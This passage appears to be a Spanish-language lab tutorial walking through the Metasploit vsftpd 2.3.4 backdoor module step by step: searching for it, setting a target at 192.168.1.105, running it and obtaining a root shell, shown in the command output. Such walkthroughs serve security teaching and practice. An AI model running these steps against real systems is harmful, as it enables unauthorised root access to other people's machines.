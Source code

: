 
#### Paso 2: Buscar módulo de exploit para vsftpd

```bash
search vsftpd
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 3: Usamos el módulo

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 4: Ver opciones

```bash
show options
```

---

#### Paso 5: Configuramos IP de la víctima

```bash
set RHOST 192.168.1.105
```

Este exploit ya trae un payload por defecto (cmd/unix/interact), así que no necesitas configurar payload.

---

#### Paso 6: Ejecutamos el módulo

```bash
run
```

---

#### Resultado:

Si todo va bien, te aparecerá una shell interactiva:

```
[*] Command shell session 1 opened
id
uid=0(root) gid=0(root)
```
